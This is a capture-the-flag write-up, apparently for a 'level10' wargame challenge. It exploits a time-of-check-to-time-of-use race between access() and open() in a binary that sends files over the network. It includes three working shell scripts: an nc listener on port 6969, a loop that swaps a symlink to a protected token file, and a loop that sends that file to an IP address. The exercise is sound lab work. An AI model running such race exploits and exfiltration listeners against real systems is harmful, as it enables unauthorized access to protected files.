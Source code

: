 ## STEPS

### 1. Initial Investigation:
In the home directory, I found an executable named level10 and a file named token. Attempting to execute level10 with token as an argument resulted in denial of access.

I decompiled the level10 executable to understand its behavior. The decompiled code revealed that the program first checks the permissions of the file specified as an argument using the access() function before attempting to open it and send its contents to the host. This behavior creates a security vulnerability, as mentioned in the documentation for the access function.

![alt text](access.png)

### 2.Exploiting the Vulnerability:
Understanding the security hole created by the short time interval between checking permissions and opening the file, I decided to exploit it by creating symbolic links to the token file in a loop. Additionally, I set up a listening server to receive the file sent by the level10 executable.

So I created three shell scripts to exploit the vulnerability:
- The first script sets up a listening server on port 6969 using nc.
```
#!/bin/sh
while :
do
	nc -l 6969
done
```

- The second script creates and deletes a symbolic link to the token file repeatedly.
```
#!/bin/sh
while :
do 
	touch /tmp/t
	rm -rf /tmp/t
	ln -s /home/user/level10/token /tmp/t
	rm -rf /tmp/t
done
```

- The third script executes level10 with the symbolic link as the argument, sending the file to a specific host.
```
#!/bin/sh
while :
do 
	./level10 /tmp/t 10.12.174.84
done
```

I executed the three scripts simultaneously. As a result, the level10 executable attempted to send the file to the specified host multiple times, exploiting the vulnerability in the permission check and eventually revealing the flag.
![alt text](flag.png)
![alt text](level10.png)